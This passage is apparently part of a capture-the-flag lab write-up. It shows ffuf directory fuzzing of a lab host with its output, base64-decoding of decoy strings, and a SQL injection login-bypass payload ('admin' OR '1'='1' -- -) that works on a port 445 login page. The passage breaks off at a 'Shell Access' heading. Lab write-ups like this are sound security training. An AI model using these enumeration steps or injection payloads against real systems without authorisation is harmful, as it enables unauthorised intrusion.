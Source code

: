   ```
  ffuf -u http://10.10.242.82/FUZZ -w /seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
  admin                   [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 3707ms]
  shadow                  [Status: 200, Size: 25, Words: 1, Lines: 2, Duration: 48ms]
  passwd                  [Status: 200, Size: 25, Words: 1, Lines: 2, Duration: 160ms]

  ffuf -u http://10.10.242.82:445/FUZZ -w /seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
  management              [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 46ms]

  ffuf -u http://10.10.242.82:445/management/FUZZ -w /seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
  assets                  [Status: 301, Size: 329, Words: 20, Lines: 10, Duration: 45ms]
  admin                   [Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 2004ms]
  pages                   [Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 46ms]
  build                   [Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 46ms]
  database                [Status: 301, Size: 331, Words: 20, Lines: 10, Duration: 47ms]
  uploads                 [Status: 301, Size: 330, Words: 20, Lines: 10, Duration: 45ms]
  dist                    [Status: 301, Size: 327, Words: 20, Lines: 10, Duration: 46ms]
  classes                 [Status: 301, Size: 330, Words: 20, Lines: 10, Duration: 50ms]
  inc                     [Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 45ms]
  plugins                 [Status: 301, Size: 330, Words: 20, Lines: 10, Duration: 47ms]
  libs                    [Status: 301, Size: 327, Words: 20, Lines: 10, Duration: 45ms]

  ffuf -u http://10.10.242.82:445/management/admin/FUZZ -w /seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
  reports                 [Status: 301, Size: 336, Words: 20, Lines: 10, Duration: 49ms]
  user                    [Status: 301, Size: 333, Words: 20, Lines: 10, Duration: 45ms]
  maintenance             [Status: 301, Size: 340, Words: 20, Lines: 10, Duration: 45ms]
  inc                     [Status: 301, Size: 332, Words: 20, Lines: 10, Duration: 52ms]
  drivers                 [Status: 301, Size: 336, Words: 20, Lines: 10, Duration: 47ms]
  ```
  
- On port 80 you can find some encoded strings.

  ```
  echo 'VHJ1c3QgbWUgaXQgaXMgbm90IHRoaXMgZWFzeS4ubm93IGdldCBiYWNrIHRvIGVudW1lcmF0aW9uIDpE' | base64 -d
  Trust me it is not this easy..now get back to enumeration :D

  echo 'bm90IHRoaXMgZWFzeSA6RA==' | base64 -d                                                        
  not this easy :D
  ```
  
- I moved to port 445 and found a login page. I tried for basic SQLI and well... Got in!

  ```
  admin' OR '1'='1' -- -
  test
  ```

---

## ⚙️ Shell Access
